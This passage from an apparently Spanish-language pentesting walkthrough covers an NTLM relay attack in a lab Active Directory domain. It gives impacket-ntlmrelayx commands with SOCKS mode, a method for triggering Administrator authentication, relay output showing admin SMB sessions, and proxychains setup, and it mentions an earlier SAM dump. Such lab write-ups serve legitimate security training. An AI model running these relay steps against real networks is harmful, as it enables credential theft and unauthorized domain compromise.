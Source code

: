 Vemos que hemos sacado informacion del `Administrador` volcando tambien la `SAM`.

Pero no solo podemos hacer esto, si no que tambien podremos ejecutar un comando redirijiendolo a un `proxy`.

```shell
impacket-ntlmrelayx -smb2support -tf targets.txt -socks
```

Ahora cuando de nuevo cualquier usuario se conecte de forma erronea a un recurso compartido, pasara que se nos creara una conexion activa en `SOCKS`.

Por lo que ejecutamos esto en `DC01` como el usuario `Administrador`, pero puede ser bajo cualquier usuario, funciona con caulquiera.

```powershell
dir \\fhuisjf\c$
```

Esto nos dara un error como esperamos y si volvemos a donde tenemos la escucha del servidor del `socks` veremos lo siguiente:

```
[*] Received connection from CORP/Administrator at DC01, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-13 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, attacking target smb://192.168.5.208
[*] Authenticating against smb://192.168.5.208 as CORP/ADMINISTRATOR SUCCEED
[*] SOCKS: Adding CORP/ADMINISTRATOR@192.168.5.208(445) to active SOCKS connection. Enjoy
[*] All targets processed!
[*] SMBD-Thread-13 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, but there are no more targets left!
```

Tendremos que pulsar `ENTER` y veremos el siguiente `prompt`:

```
ntlmrelayx>
```

Ejecutamos dentro de esta interfaz el comando `socks` y veremos que tendremos una sesion activa de la siguiente forma:

```shell
ntlmrelayx> socks
```

Info:

```
Protocol  Target         Username            AdminStatus  Port 
--------  -------------  ------------------  -----------  ----
SMB       192.168.5.208  CORP/ADMINISTRATOR  TRUE         445
```

Ahora para poder interactuar con esta sesion, vamos a utilizar `proxuchange` que viene en `kali` de la siguiente forma en otra terminal:

```shell
sudo nano /etc/proxychains4.conf

#Dentro del nano
socks4  127.0.0.1 1080
```
